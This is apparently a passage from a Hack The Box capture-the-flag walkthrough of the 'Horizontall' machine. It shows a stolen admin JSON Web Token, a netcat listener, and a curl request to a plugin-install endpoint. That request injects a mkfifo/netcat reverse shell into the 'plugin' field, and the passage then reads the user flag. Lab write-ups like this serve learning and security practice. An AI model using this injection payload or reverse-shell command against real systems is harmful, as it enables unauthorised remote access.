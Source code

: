 ```
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzAyODExLCJleHAiOjE2MzM4OTQ4MTF9._P5JRoW0OpW0jNNgkxgU-krUzt5oq40hso6PKVvJZQE

```
##By using these creds and JSON Token we managed to login through the portal (using burp) 
![Admin page](https://github.com/sigwotts/HTB-Walkthrough/blob/main/Horizontal/adminpage%20after%20login.png)

##Now we set up a netcat listner
```
nc -lnvp 4444
```

##This script does not gives us the shell so by getting the reverse shell we use curl 
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzAyODExLCJleHAiOjE2MzM4OTQ4MTF9._P5JRoW0OpW0jNNgkxgU-krUzt5oq40hso6PKVvJZQE' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14157. 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'

```
#BOOOOOOOOOOOOOOMMMMMMMMMMM!!!!!!!!!!!! We got a shell

##Here we got our user flag 
```
cat /home/developer/user.txt
```
